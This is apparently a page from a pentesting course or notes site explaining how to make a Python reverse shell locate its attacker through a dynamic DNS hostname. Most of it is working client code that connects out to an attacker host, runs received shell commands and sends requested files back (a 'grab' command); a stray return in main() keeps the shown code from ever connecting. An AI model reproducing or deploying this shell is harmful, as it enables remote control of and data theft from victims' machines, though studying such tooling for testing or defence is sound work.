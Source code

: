 ```yaml
---
title: Coding a DDNS aware shell
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, python
---
```


# Coding a DDNS aware shell

When coding a reverse shell you don't need to hardcode the IP address of the attacker machine. Instead, you can use a Dynamic DNS server such as https://www.noip.com/. To inform this server of our attacker IP public address we will install a linux dynamic client on our kali (an agent that will do the trick).

See [noip](../noip.md) to lear how to install a linux dynamic client on the attacker machine.

After installing the agent, let's see the modification needed on the client side of the [TCP reverse shell](coding-a-tcp-reverse-shell.md).


## Client side

```python

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket
import subprocess
import os

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while len(packet) > 0:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
    else:
        s.send('File not found'.encode())
def connecting(ip):
    s = socket.socket()
    s.connect((ip, 8080))

    while True:
        command = s.recv(1024)

        if 'terminate' in command.decode():
            s.close()
            break

        elif 'grab' in command.decode():
            grab, path = command.decode().split("*")
            try:
                transfer(s, path)
            except:
                pass
        else:
            CMD = subprocess.Popen(command.decode(), shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            s.send(CMD.stderr.read())
            s.send(CMD.stdout.read())
def main():
    ip = socket.gethostbyname('cared.ddns.net')
    print (ip)
    return
    connecting(ip)
main()

```
